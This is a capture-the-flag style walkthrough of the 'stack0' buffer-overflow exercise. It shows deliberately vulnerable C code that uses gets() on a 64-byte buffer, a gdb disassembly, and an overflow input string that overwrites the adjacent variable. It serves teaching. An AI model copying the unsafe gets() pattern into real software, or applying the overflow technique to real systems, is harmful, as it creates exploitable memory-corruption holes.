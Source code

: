 # STACK0 task

## The main of task is to somehow modify the variable 'modified'

### The idea:

The main vulnerability of this code is the `gets(buffer)` function, because we can modify the memory through memory
overwrite. So we can just overwrite buffer by adding 64 values to stack

### Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### Solution:

1. run `gdb stack0` to begin debug process
2. `set disassembly-flavor intel` command to better output
3. `disassemble main` to view `main` function dump

```
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0  <-- modified = 0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>      <-- gets(buffer)
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```
4. set the breakpoints: `break *0x0804840c` and `break *0x0804840c`
5. ```
    define hook-stop
    info registers
    x/24wx $esp <-- 24 values from esp stack
    x/2i $eip <-- 2 pointers from eip
    end
   ```
   to modify break output
6. run(`r`) the program and get to the input of `gets(buffer)` (type `c` to continue the execution) 
7. now type some capital "A" chars, and press enter ![img.png](assets/img.png). 

See that some values in `0xbffffc10` block and `0xbffffc20` were changed to `0x41414141`
9. how do we know where is the variable address in stack? Simple! Just type `x/wx $esp+0x5c` (from `mov    DWORD PTR [esp+0x5c],0x0`) to see address
10. now rerun and type "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB". You must see that `0x00000000` turned into a "BBBB" hex (`0x42424242`) ![img_1.png](assets/img_1.png)
